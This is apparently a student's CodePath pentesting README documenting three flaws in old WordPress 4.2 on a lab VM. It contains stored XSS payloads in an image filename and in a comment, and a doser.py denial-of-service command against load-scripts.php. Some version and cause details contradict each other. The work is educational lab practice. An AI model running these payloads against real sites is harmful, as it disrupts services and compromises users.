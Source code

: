 # Week7-CodePath

# Project 7 - WordPress Pentesting

Time spent: **X** hours spent in total

> Objective: Find, analyze, recreate, and document **three vulnerabilities** affecting an old version of WordPress

## Pentesting Report


1. Authenticated Stored Cross-Site Scripting via Image Filename
  - [ ] Summary: By inserting javascript infront of filename of image when the file is uploaded and the image is selected the script will run. This is due to Word Press not filtering javascript in the filenames text when an image is uploaded.
    - Vulnerability types: Cross Site Scripting (XSS)
    - Tested in version: 4.2
    - Fixed in version: 4.0.13
  - [ ] GIF Walkthrough: https://gfycat.com/anothersorrowfulfritillarybutterfly
  - [ ] Steps to recreate: Include script <img src=a onclick=alert("Oh_Baby_a_Triple!")> infront of the .img
  - [ ] Affected source code: 
    - [Link 1](https://core.trac.wordpress.org/browser/tags/version/src/source_file.php)
2. Authenticated Stored Cross-Site Scripting
  - [ ] Summary: By inserting malicious javascript (“<a title='x onclick=alert(unescape(/Pwned/.source)) style=position:absolute;left:0;top:0;width:5000px;height:5000px "64kb characters"><a>") in the comment section followed by 64kb of characters, this creates a buffer overflow that allows the script to run when on the Post's page.
    - Vulnerability types: Cross Site Scripting (XSS)
    - Tested in version: 4.2
    - Fixed in version: 4.2.3
  - [ ] GIF Walkthrough: https://gfycat.com/CriminalWhichDoctorfish
  - [ ] Steps to recreate: Add the javascript in the comment section and after posting the comment click the page to activate XSS onclick.
  - [ ] Affected source code:
    - [Link 1](https://core.trac.wordpress.org/browser/tags/version/src/source_file.php)
3. Application Denial of Service (DoS) (Unpatched)
  - [ ] Summary: This DOS attack is accomplished by exploiting the vulnerability found in the page load-scripts.php which allows the user to send multiple javascript files in one request, this causes the network to slow to a crawl trying process all the scripts.
    - Vulnerability types: DOS attack
    - Tested in version: 4.2
    - Fixed in version: never fixed
  - [ ] GIF Walkthrough: https://gfycat.com/soulfulsophisticatedbarbet
  - [ ] Steps to recreate: By using the doser.py code created by Barak Tawily on github we can insert this command to DOS attack the Word Press server.
  ```
  python doser.py -g 'http://WPdistillery.vm/wp-admin/load-scripts.php?c=1&load%5B%5D=eutil,common,wp-a11y,sack,quicktag,colorpicker,editor,wp-fullscreen-stu,wp-ajax-response,wp-api-request,wp-pointer,autosave,heartbeat,wp-auth-check,wp-lists,prototype,scriptaculous-root,scriptaculous-builder,scriptaculous-dragdrop,scriptaculous-effects,scriptaculous-slider,scriptaculous-sound,scriptaculous-controls,scriptaculous,cropper,jquery,jquery-core,jquery-migrate,jquery-ui-core,jquery-effects-core,jquery-effects-blind,jquery-effects-bounce,jquery-effects-clip,jquery-effects-drop,jquery-effects-explode,jquery-effects-fade,jquery-effects-fold,jquery-effects-highlight,jquery-effects-puff,jquery-effects-pulsate,jquery-effects-scale,jquery-effects-shake,jquery-effects-size,jquery-effects-slide,jquery-effects-transfer,jquery-ui-accordion,jquery-ui-autocomplete,jquery-ui-button,jquery-ui-datepicker,jquery-ui-dialog,jquery-ui-draggable,jquery-ui-droppable,jquery-ui-menu,jquery-ui-mouse,jquery-ui-position,jquery-ui-progressbar,jquery-ui-resizable,jquery-ui-selectable,jquery-ui-selectmenu,jquery-ui-slider,jquery-ui-sortable,jquery-ui-spinner,jquery-ui-tabs,jquery-ui-tooltip,jquery-ui-widget,jquery-form,jquery-color,schedule,jquery-query,jquery-serialize-object,jquery-hotkeys,jquery-table-hotkeys,jquery-touch-punch,suggest,imagesloaded,masonry,jquery-masonry,thickbox,jcrop,swfobject,moxiejs,plupload,plupload-handlers,wp-plupload,swfupload,swfupload-all,swfupload-handlers,comment-repl,json2,underscore,backbone,wp-util,wp-sanitize,wp-backbone,revisions,imgareaselect,mediaelement,mediaelement-core,mediaelement-migrat,mediaelement-vimeo,wp-mediaelement,wp-codemirror,csslint,jshint,esprima,jsonlint,htmlhint,htmlhint-kses,code-editor,wp-theme-plugin-editor,wp-playlist,zxcvbn-async,password-strength-meter,user-profile,language-chooser,user-suggest,admin-ba,wplink,wpdialogs,word-coun,media-upload,hoverIntent,customize-base,customize-loader,customize-preview,customize-models,customize-views,customize-controls,customize-selective-refresh,customize-widgets,customize-preview-widgets,customize-nav-menus,customize-preview-nav-menus,wp-custom-header,accordion,shortcode,media-models,wp-embe,media-views,media-editor,media-audiovideo,mce-view,wp-api,admin-tags,admin-comments,xfn,postbox,tags-box,tags-suggest,post,editor-expand,link,comment,admin-gallery,admin-widgets,media-widgets,media-audio-widget,media-image-widget,media-gallery-widget,media-video-widget,text-widgets,custom-html-widgets,theme,inline-edit-post,inline-edit-tax,plugin-install,updates,farbtastic,iris,wp-color-picker,dashboard,list-revision,media-grid,media,image-edit,set-post-thumbnail,nav-menu,custom-header,custom-background,media-gallery,svg-painter&ver=4.9' -t 9999
  ```
  - [ ] Affected source code:
    - [Link 1](https://core.trac.wordpress.org/browser/tags/version/src/source_file.php) 

## Assets
Reference:https://sumofpwn.nl/advisory/2016/persistent_cross_site_scripting_vulnerability_in_wordpress_due_to_unsafe_processing_of_file_names.html

Reference:https://www.exploit-db.com/exploits/36844/

Reference:https://github.com/quitten/doser.py

Reference:https://thehackernews.com/2018/02/wordpress-dos-exploit.html

## Resources

- [WordPress Source Browser](https://core.trac.wordpress.org/browser/)
- [WordPress Developer Reference](https://developer.wordpress.org/reference/)

GIFs created with [giphy](https://giphy.com/).

## Notes

During testing WPdistillery after performing a buffer overflow attack I ran into the issue of the Virtual Machine breaking. In which I had to reinstall the WPdistillery machine and had to set up everything again.

## License

    Copyright [2018] [Michael Freeman]

    Licensed under the Apache License, Version 2.0 (the "License");
    you may not use this file except in compliance with the License.
    You may obtain a copy of the License at

        http://www.apache.org/licenses/LICENSE-2.0

    Unless required by applicable law or agreed to in writing, software
    distributed under the License is distributed on an "AS IS" BASIS,
    WITHOUT WARRANTIES OR CONDITIONS OF ANY KIND, either express or implied.
    See the License for the specific language governing permissions and
    limitations under the License.
